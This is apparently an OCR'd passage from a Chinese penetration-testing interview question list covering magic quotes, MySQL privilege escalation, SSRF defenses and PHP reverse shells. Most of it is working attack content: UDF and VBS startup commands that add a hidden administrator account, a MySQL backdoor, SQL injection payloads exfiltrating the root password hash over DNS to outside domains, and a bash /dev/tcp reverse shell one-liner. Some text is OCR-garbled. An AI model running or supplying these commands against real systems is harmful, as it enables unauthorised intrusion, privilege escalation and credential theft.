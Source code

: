 #### ✸ 65.gpc  魔术引号？  
参考文章： http://www.jb51.net/article/38990  </br>

#### ✸ 66.MYSQL 有哪些提权方法？  
 （1 ）UDF 提权  </br>
这类提权方法我想大家已经知道了，我大致写一下，具体语句如下：  
create function cmdshell returns string soname ’udf.dll’   </br> 
select cmdshell(’net user iis_user 123!@#abcABC /add’);   </br> 
select cmdshell(’net localgroup administrators iis_user /add’); </br>   
select cmdshell(’regedit /s d:web3389.reg’);    </br>
drop function cmdshell;    </br>
select cmdshell(’netstat -an’);  </br>
 （2 ）VBS 启动项提权  </br>
create table a (cmd text);    </br>
insert into a values ("set wshshell=createobject (""wscript.shell"") " );    </br>
insert into a values ("a=wshshell.run (""cmd.exe /c net user iis_user 123!@#abcABC/add"",0) " );    </br>
insert into a values ("b=wshshell.run (""cmd.exe /c net localgroup administrators iis_user /add"",0) " );   </br> 
select * from a into outfile "C:\ Documents and Settings\All Users\ 「开始」 </br>
菜单\程序\启动\a.vbs";  </br>
 （3 ）Linx MySQL BackDoor 提权  </br>
Linx Mysql Door  </br>
Mysql BackDoor 是一款针对 PHP+Mysql 服务器开发的后门,该后门安装后为 </br>
Mysql增加一个可以执行系统命令的"state"函数,并且随 Mysql进程启动一个基于 Dll 的嗅探型后门,这个后门在 Windows 下拥有与 Mysql 一样的系统权限,从而巧妙的实现了无端口,无进程,无服务的穿墙木马.  </br>
用法：将 Mysql.php 传到 PHP 服务器上,点击"自动安装 Mysql BackDoor" ， </br>
然后直接执行命令即可    </br>
 （4 ）MIX.DLL 提权  </br>
1.在独立 IP 的 sqlmap 下运  </br>
2.禁用本地缓存  net stop dns  </br>
3.http://localhost/inject.php?user=123&#39; and if((SELECT  </br>
LOAD_FILE(CONCAT('\\',(SELECT  </br>
hex(user())),'.abc.com\foobar'))),1,1)%23  </br>
http://localhost/inject.php?user=123&#39; and if((SELECT  </br>
LOADFILE(CONCAT('\\',(SELECT concat(user,'',mid(password,2,41)) from  </br>
user where user='root' limit 1),'.md5crack.cn\foobar'))),1,1)%23  </br>
https://sanwen8.cn/p/1acWt8J.html &nbsp;   </br>
4.DNS 突破  </br>
参考文章：http://www.freebuf.com/vuls/85021.html  </br>

#### ✸ 67.什么叫 ssrf 以及 ssrf 的防御？  
(1)SSRF(Server-Side Request Forgery:服务器端请求伪造)  是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。一般情况下，SSRF 攻击的目标是从外网无法访问的内部系统  </br>
(2)SSRF 统一错误信息，避免用户可以根据错误信息来判断远程服务器端口状态  </br>
1.限制请求的端口为 HTTP 常用的端口，比如  80,443,8080,8088 等  </br>
2.黑名单内网 IP。  </br>
3.禁用不需要的协议，仅仅允许 HTTP 和 HTTPS.  </br>

#### ✸ 68.如何利用 php 的远程命令执行函数进行反弹 nc?  
system,exec,shell_exec,paassthru,popen,proc_popen,  </br>
反弹 shell    公网服务器执行  nc –lvv 8888  </br>
目标服务器上执行?cmd= bash -i >& /dev/tcp/10.0.0.1/8888 0>&1  </br>
并在 disabl_functions 中禁用  </br>

